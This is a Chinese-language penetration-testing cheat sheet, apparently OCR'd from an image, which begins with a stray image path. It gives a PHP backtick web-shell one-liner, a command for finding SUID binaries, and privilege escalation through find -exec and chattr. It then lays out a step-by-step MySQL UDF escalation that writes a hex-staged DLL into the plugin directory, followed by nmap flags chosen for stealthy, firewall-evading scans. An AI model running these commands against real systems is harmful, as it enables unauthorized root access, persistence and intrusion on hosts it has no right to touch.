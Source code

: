    ```<?php echo `whoami`;?>```
**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有 suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现 find 命令有 suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```

#### 3.1. getshell

1. 利用 3306 端口，获取 mysql 用户名密码
2. 查询系统位数，32/64
   show variables like '%compile%';
3. 利用 mysql-udf 提权 用户自定义函数
   建立一张表，将 dll16 进制文件临时存放到表中。使用 mysql < \*.sql 或使用数据库连接工具。
4. 查询是否有导出权限
   show global variables like 'secure%';
5. 导出位置
   select version();
   mysql<5.0 任意
   5.0<=mysql<5.1 放在系统目录
   mysql>=5.1 lib/plugin
6. 导出到指定位置
   show variables like 'plugin%';
   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";

### 4. tools

**NMAP**

|      |                                                              |
| ---- | ------------------------------------------------------------ |
| -sS  | 隐蔽扫描                                                     |
| -Pn  | 服务器禁止ping命令，跳过主机发现的过程进行端口扫描，-p0也要类似的效果 |
| -P0  | 免Ping 扫描，穿透防火墙，避免被防火墙发现                    |
| -v   | 显示扫描过程                                                 |
| -A   | 全面的系统扫描:包括打开操作系统探测、版本探测、脚本扫描、路径跟踪 |
| -sP  | ping扫描                                                     |
| -p   | 指定端口范围（-p 1-65535）                                   |
